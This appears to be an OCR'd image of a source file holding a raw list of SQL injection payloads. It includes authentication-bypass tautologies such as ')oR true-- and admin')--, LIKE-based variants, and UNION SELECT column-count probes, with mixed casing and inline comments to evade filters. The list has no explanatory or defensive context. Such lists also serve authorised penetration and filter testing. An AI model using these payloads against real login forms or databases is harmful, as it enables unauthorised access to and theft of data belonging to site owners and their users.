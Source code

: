 ```
')oR true/*
')oR true oR('
')oR(true)-- 2
')oR(true)#
')oR(true)/*
')oR(true)oR('
')oR/**/true-- 2
')oR/**/true#
')oR/**/true/*
')oR/**/true/**/oR('
")oR true-- 2
")oR true#
")oR true/*
")oR true oR("
")oR(true)-- 2
")oR(true)#
")oR(true)/*
")oR(true)oR("
")oR/**/true-- 2
")oR/**/true#
")oR/**/true/*
")oR/**/true/**/oR("
')oR'2'LiKE('2
')oR'2'LiKE'2'-- 2
')oR'2'LiKE'2'#
')oR'2'LiKE'2'/*
')oR'2'LiKE'2'oR('
')oR(2)LiKE(2)-- 2
')oR(2)LiKE(2)#
')oR(2)LiKE(2)/*
')oR(2)LiKE(2)oR('
")oR"2"LiKE("2
")oR"2"LiKE"2"-- 2
")oR"2"LiKE"2"#
")oR"2"LiKE"2"/*
")oR"2"LiKE"2"oR("
")oR(2)LiKE(2)-- 2
")oR(2)LiKE(2)#
")oR(2)LiKE(2)/*
")oR(2)LiKE(2)oR("
admin')-- 2
admin')#
admin')/*
admin")-- 2
admin")#
') UniON SElecT 1,2-- 2
') UniON SElecT 1,2,3-- 2
') UniON SElecT 1,2,3,4-- 2
') UniON SElecT 1,2,3,4,5-- 2
') UniON SElecT 1,2#
') UniON SElecT 1,2,3#
') UniON SElecT 1,2,3,4#
') UniON SElecT 1,2,3,4,5#
')UniON(SElecT(1),2)-- 2
')UniON(SElecT(1),2,3)-- 2
')UniON(SElecT(1),2,3,4)-- 2
')UniON(SElecT(1),2,3,4,5)-- 2
')UniON(SElecT(1),2)#
')UniON(SElecT(1),2,3)#
')UniON(SElecT(1),2,3,4)#
')UniON(SElecT(1),2,3,4,5)#
") UniON SElecT 1,2-- 2
") UniON SElecT 1,2,3-- 2
```
